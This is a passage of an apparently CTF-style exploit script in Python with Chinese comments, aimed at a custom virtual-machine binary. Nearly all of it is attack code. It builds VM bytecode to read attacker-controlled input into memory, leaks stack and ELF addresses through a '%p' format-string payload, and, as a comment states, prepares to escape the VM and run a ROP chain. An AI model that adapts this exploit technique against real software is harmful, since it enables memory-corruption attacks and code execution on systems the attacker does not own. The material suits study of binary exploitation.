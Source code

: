 ```py
	# 使得循环变量自增 1
	u64_s('%k'), 0, 0x5,			# push reg(5)
	u64_s('%U'), 0, 1,			# push 1
	u64_s('%A'), 0, 0,			# add
	u64_s('%Y'), 0, 0x5,			# pop reg(5)
	# 比较循环变量是否大于 300,  用户可以输入 300 个 4 字节整数
	u64_s('%k'), 0, 0x5,			# push reg(5)
	u64_s('%U'), 0, 169 + 300,		# push 169 + 300
	u64_s('%r'), 0, 0,			# cmp_greater
	u64_s('%S'), 0, ret_addr + 2,		# jnz ret_addr + 2
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 13)
	# 此处位于 data 段的相对地址是 data_base + 169			size: __int96, 4 Bytes
	u64_s('fleg'),
	# 伪代码
	# for(int i = 169; i < 169 + 300; i ++) {
	#     store_sth(i, STDIN);
	# }
]
print(len(VM_shellcode))

VM_shellcode += [ 0 ] * (64 - len(VM_shellcode))

choice_2(0xffffffff, 63, VM_shellcode)
choice_3(104, 3, b'111' * 4)
p.sendline(str(ret_addr).encode())

VM_shellcode_1 = [
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 13)		size: __int96, 12 Bytes
	# 此处位于 data 段的相对地址是 data_base + 169			size: __int32, 4 Bytes
	# 泄露基本 stack, elf 信息
	u64_s('form'), u64_s('at::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('%p::'),u64_s('%p::'),
	u64_s('%p::'), u64_s('form'),u64_s('at:'),
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 23)
	# 114514 作为正常运行的分隔符，提醒客户端当前指令
	u64_s('%U'), 0, 114514,			# push 114514
	u64_s('%y'), 0, 0,			# pop printf()
	# 获取 vm_code_base 的地址
	u64_s('%U'), 0, -1008,			# push -1008		size: __int32, 4 Bytes
	u64_s('%#V'), 0, 0,			# load_sth0
	u64_s('%y'), 0, 0,			# pop printf()
	u64_s('%U'), 0, -1007,			# push -1007		size: __int32, 4 Bytes
	u64_s('%#V'), 0, 0,			# load_sth0
	u64_s('%y'), 0, 0,			# pop printf()
	
	# ------------- 在获得基本信息后，从这里开始跳出虚拟机，打rop -------------
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 31)		size: __int96, 12 Bytes
	# 此处输入 rop 链及其他相关数据
	# 初始化循环变量 reg(5)
	u64_s('%U'), 0, 1024,			# push 1024, vm_data_base + 0x1000
	u64_s('%Y'), 0, 0x5,			# pop reg(5)
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 33)		size: __int96, 12 Bytes
	u64_s('%a'), 0, 0,			# push stdin
	u64_s('%k'), 0, 0x5,			# push reg(5)
	u64_s('%#X'), 0, 0,			# store_sth0
	# 使得循环变量自增 1
```
